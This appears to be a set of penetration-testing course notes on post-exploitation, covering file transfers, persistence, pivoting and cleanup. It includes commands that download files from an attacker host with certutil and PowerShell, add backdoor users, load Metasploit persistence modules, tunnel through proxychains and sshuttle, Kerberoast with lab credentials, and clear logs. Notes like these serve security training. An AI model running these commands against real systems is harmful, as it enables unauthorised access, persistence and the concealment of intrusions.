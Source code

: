 # Introduction
- File Transfers Review
- Maintaining Access Overview
- Pivoting Overview
- Pivoting Walkthrough
- Cleaning Up

# File Transfers Review
- Certutil
```batch
certutil.exe -urlcache -f http:/10.10.10.10/file.txt file.txt
```
- Powershell
```powershell
Invoke-WebRequest -Uri "http://10.10.10.10:8000/filename.txt" -OutFile "filename.txt"
```
- HTTP with Python
```bash
python3 -m http.server 80
```
- Browser
   - Navigate to the file directly
- FTP
Attacker machine
```bash
python3 -m pyftpdlib 21
```
Victim machine
```batch
ftp 10.10.10.10
```
- Linux
   - `wget`
- Metasploit: The meterpreter shell has an upload and download functionality
# Maintaining Access Overview
- For pentests and not red teaming.
```batch
net user username password /add
```
- Metasploit: Risky as it leaves unauthenticated open ports that could be used by anyone.
```bash
run persistence -h
exploit/windows/local/persistence
exploit/windows/local/registry_persistence
```
- Secheduled tasks
```bash
run scheduleme
run schtaskabuse
```
# Pivoting Overview
Machine with two NICs and access to more than one network.
Set up a proxy and pivot through that.
- Proxychains
Look at the configuration file. Note the port that is being used for `socks4`
```bash
cat /etc/proxychains4.conf
```
Set SSH connection using that proxychains port
```bash
ssh -f -N -D 9050 -i ~/.ssh/key-to-use user@ip
```
Run nmap through proxychains
```bash
sudo proxychains nmap -p port-numbers ip-address
# Sometimes the -sT might be helpful
sudo proxychains nmap ip-address -sT
```
Run other attacks through proxychains
```bash
sudo proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 10.0.0.3 -request
```
Run RDP through proxychains
```bash
sudo proxychains xfreerdp /u:administrator /p:'Delicious123!' /v:10.10.10.5
```
- Sshuttle
Tab 1: Run the command below to establish the connection and leave it open
```bash
sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot"
```
Tab2: Now run any command you want and it should be proxied through
```bash
nmap -p port-numbers ip-address
```
- Chisel tool mention
   - [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
# Cleaning Up
## Pentest perspective
Leave the network the same as when you entered it
Remove executables, scripts, and added files.
Reset configurations, remove added user, etc.
## Red Team perspective
Same as the pentest perspective.
Make it look like you were never there.
Clear log files.
